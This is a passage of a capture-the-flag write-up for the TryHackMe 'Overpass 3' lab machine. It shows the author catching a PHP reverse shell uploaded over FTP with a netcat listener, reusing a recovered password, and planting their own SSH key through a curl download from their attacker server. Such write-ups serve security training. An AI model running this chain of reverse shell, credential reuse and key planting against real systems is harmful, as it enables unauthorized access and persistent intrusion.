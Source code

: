 - we set up our listener `rlwrap nc -lvp 1234` (rlwrap will allow us to have a more interactive shell which is pretty convenient)
- We put ou reverse shell on the ftp 
```
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.
100% |******************************************************************************************************************************************************************|  5493       11.19 MiB/s    00:00 ETA
226 Transfer complete.
5493 bytes sent in 00:00 (8.73 KiB/s)
```
- And now we can navigate to our shell using our browser `http://10.10.4.129/php-reverse-shell.php`
- We get a shell!!
```
whoami
apache
sh-4.4$ 
```
- Let's use the command find to find a flag `find / -name *flag* 2>/dev/null`
There is one here: `/usr/share/httpd/web.flag`
- We have the web flag
- We could try the passwords we got previously with the su command
- Let's try with james we get failure with all three pass. Lets try with paradox, it works with the password ShibesAreGreat123
- If we ls -al the home directory we have an authorized key for paradox so we could replace it with our public key to have a more stable shell. Lets generate an rsa_key
```
┌──(root💀kali)-[~/Documents/tryhackme/overpass3]
└─# ssh-keygen                                                                                                                                                                                             1 ⨯
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/Documents/tryhackme/overpass3/private
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/Documents/tryhackme/overpass3/private
Your public key has been saved in /root/Documents/tryhackme/overpass3/private.pub
The key fingerprint is:
SHA256:dpZvvEmhvr7eAEjEaGtCxsvxUKzvQ0waY0fTMmAZTLE root@kali
The key's randomart image is:
+---[RSA 3072]----+
| +*B.+.          |
| .O.O.o          |
| +EO =.          |
|  O *. .   .     |
| . @  . S + .    |
|  . +  . + + .   |
|   o      o =    |
|    o    . = o   |
|     .   o*o+    |
+----[SHA256]-----+
```
- Now we just need to replace the authorized_keys fil with our public key. First we copy our private key in an authorized_keys file `cp private.pub authorized_keys`
- Then we laucn an http server `python3 -m http.server 80`
- wget does not work in our target so we can use curl instead `curl http://10.13.22.56/authorized_keys --output authorized_keys`
- And now the authorized keys is our public key
- Now we can just connect this way `ssh -i private paradox@10.10.4.129`
- Let's get [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) on the machine to enumerate our way to root.